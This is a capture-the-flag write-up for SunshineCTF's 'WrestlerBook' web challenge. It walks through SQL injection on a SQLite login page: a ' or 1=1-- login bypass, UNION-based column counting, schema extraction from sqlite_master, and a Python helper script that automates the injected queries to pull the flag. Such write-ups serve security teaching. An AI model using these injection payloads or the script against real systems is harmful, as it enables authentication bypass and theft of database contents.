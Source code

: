 # WrestlerBook
Web, 100 points

## Description

> WrestlerBook is the social network for wrestlers, by wrestlers. WrestlerBook is exclusively for wrestlers, so if you didn't get an invite don't even bother trying to view our profiles.


## Solution

We visit the attaches site and see a login page:

```html
<div class="login-form">
    <form action="login.php" method="post">
        <h2 class="text-center">Log in</h2>
        <div class="form-group">
            <input type="text" name="username" class="form-control" placeholder="Username" required="required">
        </div>
        <div class="form-group">
            <input type="password" name="password" class="form-control" placeholder="Password" required="required">
        </div>
        <div class="form-group">
            <button type="submit" class="btn btn-primary btn-block">Log in</button>
        </div>
        <div class="clearfix">
        </div>
    </form>
</div>
```

If we try to enter an apostrophe as the password, we get an SQL error:
```console
root@kali:/media/sf_CTFs/sunshine/WrestlerBook# curl http://archive.sunshinectf.org:19006/login.php -X POST --data "username=a&password='"
<br />
<b>Warning</b>:  SQLite3::query(): Unable to prepare statement: 1, unrecognized token: &quot;'''&quot; in <b>/var/www/html/login.php</b> on line <b>20</b><br />
<br />
<b>Fatal error</b>:  Uncaught Error: Call to a member function fetchArray() on boolean in /var/www/html/login.php:21
Stack trace:
#0 {main}
  thrown in <b>/var/www/html/login.php</b> on line <b>21</b><br />
```

This means that the site is vulnerable to SQL injection.

We can try to bypass the login test by using **`' or 1=1--`** as the password:
```console
root@kali:/media/sf_CTFs/sunshine/WrestlerBook# curl http://archive.sunshinectf.org:19006/login.php -X POST --data "username=a&password=' or 1=1--"
```

in response, we arrive to a page with details about a wrestler (Hulk Hogan):
```html
<div class="info">
    <div class="title">
        <a target="_blank"> Hulk Hogan </a>
    </div>
    <div class="desc">Username: hulkhogie</div>
    <div class="desc">Age: 65</div>
    <div class="desc">Title:  WWF World Heavyweight Champion</div>
    <div class="desc">Flag: N/A</div>
</div>
```

`SQLMap` can easily dump the database, but let's try doing in manually this time.

We know that the engine is SQLite from the original error message we saw. Let's try to create a UNION statement that will allow us to extract information from the DB.

SQLite has a `sqlite_master` table which holds information about the other tables. We can use it to extract table names and column names. However, first we have to arrive to a query which will have a legal syntax and let us extract the information we want.

We start with a simple union:

```console
root@kali:/media/sf_CTFs/sunshine/WrestlerBook# curl http://archive.sunshinectf.org:19006/login.php -X POST --data "username=a&password=a' UNION select 1 from sqlite_master--"
<br />
<b>Warning</b>:  SQLite3::query(): Unable to prepare statement: 1, SELECTs to the left and right of UNION do not have the same number of result columns in <b>/var/www/html/login.php</b> on line <b>20</b><br />
<br />
<b>Fatal error</b>:  Uncaught Error: Call to a member function fetchArray() on boolean in /var/www/html/login.php:21
Stack trace:
#0 {main}
  thrown in <b>/var/www/html/login.php</b> on line <b>21</b><br />
```

The error message we get tells us that the SELECTs on both sides of the UNION need to have the same amount of result columns. We increase the amount and try again until arriving to 8 column:

```console
root@kali:/media/sf_CTFs/sunshine/WrestlerBook# curl http://archive.sunshinectf.org:19006/login.php -X POST --data "username=a&password=a' UNION select 1,2,3,4,5,6,7,8 from s
qlite_master--"
...
                <div class="avatar">
                    <img alt="" src="3">
                </div>
                <div class="info">
                    <div class="title">
                        <a target="_blank"> 5 </a>
                    </div>
                    <div class="desc">Username: 1</div>
                    <div class="desc">Age: 4</div>
                    <div class="desc">Title: 6</div>
                    <div class="desc">Flag: 7</div>
                </div>
```

Now we are starting to see data from our query in the page result.

We can use the following Python script for easy trial & error:

```python
import re
import html
import requests
from cmd import Cmd


class MyPrompt(Cmd):
   def do_exit(self, inp):
        return True
 
   def do_send(self, param):
        q = "a' UNION {}--".format(param)
        r = requests.post('http://archive.sunshinectf.org:19006/login.php', data = {'username':"a", 'password': q})
        if "Fatal error" in r.text:
            print (r.text)
        else:
            m = re.search("<a target=\"_blank\">\s+(.+)\s+</a>", r.text)
            if m:
                print (html.unescape(m.group(1)))
            else:
                print(r.text)
 
MyPrompt().cmdloop()
```

This script lets us send queries in a mini-console, and extracts the output for easy viewing:

```console
(Cmd) send SELECT 1,2,3,4,name,6,7,8  FROM sqlite_master WHERE type='table' limit 0,1
sqlite_sequence
(Cmd) send SELECT 1,2,3,4,name,6,7,8  FROM sqlite_master WHERE type='table' limit 1,1
users
(Cmd) send SELECT 1,2,3,4,sql,6,7,8  FROM sqlite_master WHERE type='table' limit 0,1
CREATE TABLE `users` (
        `username`      TEXT,
        `password`      TEXT,
        `avatar`        TEXT,
        `age`   INTEGER,
        `name`  TEXT,
        `title` TEXT,
        `flag`  TEXT,
        `id`    INTEGER PRIMARY KEY AUTOINCREMENT
)
(Cmd) send SELECT 1,2,3,4,flag,6,7,8  FROM users WHERE length(flag) > 0 limit 0,1
N/A
(Cmd) send SELECT 1,2,3,4,flag,6,7,8  FROM users WHERE flag != "N/A" limit 0,1
example_flag
(Cmd) send SELECT 1,2,3,4,flag,6,7,8  FROM users WHERE flag != "N/A" limit 1,1
sun{ju57_4n07h3r_5ql1_ch4ll}
```